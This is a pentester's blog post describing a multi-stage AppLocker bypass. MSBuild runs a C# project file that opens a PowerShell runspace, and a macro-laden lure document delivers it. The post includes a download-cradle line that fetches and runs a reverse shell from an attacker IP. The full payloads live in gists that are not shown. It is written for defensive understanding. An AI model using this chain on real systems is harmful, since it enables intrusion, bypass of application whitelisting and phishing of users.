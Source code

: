 ```yaml
---
layout: post
title: Multi-Stage MSBuild AppLocker Bypass
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png)

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only _known good_ applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png)

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png)

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C#, in order to instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith builds upon Jared Atkinson's And Justin Warner's work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

We will use this runspace to download and execute our reverse shell using a PowerShell 3.0+ download cradle:

```pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");```

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk In order for the user to execute the macro the document needs to be dressed appropriately. (John Lambert...)

https://pbs.twimg.com/media/DWHHdvJV4AAvl22.jpg


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>
